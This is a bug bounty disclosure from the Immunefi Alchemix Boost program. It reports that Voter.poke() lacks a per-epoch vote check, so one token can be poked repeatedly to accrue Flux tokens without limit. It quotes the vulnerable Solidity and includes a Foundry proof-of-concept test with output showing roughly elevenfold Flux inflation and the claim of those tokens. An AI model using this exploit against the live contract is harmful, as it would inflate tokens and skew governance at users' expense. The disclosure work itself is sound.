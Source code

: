 
# Users can use Voter@poke to accrue Flux tokens indefinitely

Submitted on May 10th 2024 at 05:45:32 UTC by @imsrybr0 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30990

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
Users can use Voter@poke to accrue Flux tokens indefinitely.

## Vulnerability Details
```solidity
// ...
contract Voter is IVoter {
    // ...
    function poke(uint256 _tokenId) public {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);  // <=== audit
    }

    function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
        // ...
        IFluxToken(FLUX).accrueFlux(_tokenId); // <=== audit
        // ...
    }
    // ...
}
```

```solidity
// ...
contract FluxToken is ERC20("Flux", "FLUX"), IFluxToken {
    // ...
    function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
    // ...
}
```

Since `Voter@poke` does not check if the given token id already voted in the current epoch, it can be repeatedly called by a user to accrue Flux tokens indefinitely.

## Impact Details
* Artificially boost voting power for gauges voting.
* Claim Flux ERC20 tokens to :
  * Sell them
  * Use them to ragequit for free

## References
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L195-L212
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L423
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol#L188-L192


## Proof of Concept
```solidity
    function testPokeRepeatedly() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        
        hevm.startPrank(admin);

        console2.log("Initial Unclaimed Flux", flux.unclaimedFlux(tokenId1));

        voter.poke(tokenId1);

        console2.log("Unclaimed Flux after one poke", flux.unclaimedFlux(tokenId1));

        for (uint256 i; i < 10; i++) {
            voter.poke(tokenId1);
        }

        console2.log("Unclaimed Flux after 10 other pokes", flux.unclaimedFlux(tokenId1));

        flux.claimFlux(tokenId1, flux.unclaimedFlux(tokenId1));

        console2.log("Flux ERC20 balance", flux.balanceOf(admin));
    }
```

## Results
```console
Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] testPokeRepeatedly() (gas: 1457575)
Logs:
  Initial Unclaimed Flux 0
  Unclaimed Flux after one poke 994553684669529957
  Unclaimed Flux after 10 other pokes 10940090531364829527
  Flux ERC20 balance 10940090531364829527

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 55.84s (45.19s CPU time)

Ran 1 test suite in 57.17s (55.84s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```